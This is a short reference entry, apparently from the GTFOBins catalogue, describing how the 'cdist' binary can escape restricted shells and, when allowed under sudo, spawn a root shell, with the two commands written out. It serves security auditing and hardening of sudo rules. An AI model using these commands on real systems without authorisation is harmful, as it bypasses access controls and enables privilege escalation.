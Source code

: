 # GTFOBin: cdist

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
cdist shell -s /bin/sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo cdist shell -s /bin/sh
```